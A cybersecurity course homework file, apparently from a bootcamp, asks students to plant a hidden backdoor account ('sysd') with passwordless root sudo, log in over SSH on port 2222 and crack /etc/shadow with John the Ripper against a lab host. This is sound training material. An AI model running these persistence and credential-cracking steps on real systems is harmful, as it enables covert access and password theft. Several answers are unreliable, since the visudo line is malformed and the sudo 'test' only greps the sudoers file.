 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd -rMo -u 600 sysd

2. Give your secret user a password: 
    - passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 600 sysd

4. Give your secret user the same GID:
   - groupmod -g 600 sysd

5. Give your secret user full `sudo` access without the need for a password:
   - visudo sysd ALL=(ALL:ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:
     cat /etc/sudoers | grep -i sysd | awk '{ print $3 }'
    

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:
   sudo nano /etc/ssh/sshd_config

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - john passwords.txt

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

